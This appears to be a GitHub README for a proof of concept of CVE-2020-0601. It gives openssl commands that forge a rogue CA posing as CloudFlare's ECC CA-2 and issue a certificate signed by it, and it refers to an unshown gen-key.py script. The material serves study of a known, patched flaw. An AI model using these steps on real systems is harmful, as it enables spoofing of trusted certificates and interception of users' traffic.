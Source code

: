 # CryptoAPI

CVE-2020-0601: Windows CryptoAPI Spoofing Vulnerability exploitation

# CA certificate

We used the [CloudFlare Inc ECC CA-2](https://ssl-tools.net/subjects/2b0413693df1d33d7e89cba055cf204f9c158c9d)

An example of usage of this certificate is :
```bash
openssl s_client -connect tonerrefillkits.com:443 -showcerts
```

To generate a private key which match the public key certificate we used the script **gen-key.py**. Then to generate the rogue CA:

```bash
$ openssl req -key p256-key-rogue.pem -new -out ca-rogue.pem -x509
```

Using these parameters: "C = US, ST = CA, L = San Francisco, O = "CloudFlare, Inc.", CN = CloudFlare Inc ECC CA-2"

The we generate the following private key and certificate:
```bash
openssl ecparam -name prime256v1 -genkey -noout -out prime256v1-privkey.pem

openssl req -key prime256v1-privkey.pem -new -out prime256v1.csr

openssl x509 -req -in prime256v1.csr -CA ca-rogue.pem -CAkey p256-key-rogue.pem -CAcreateserial -out client-cert.pem -days 500 -sha256
```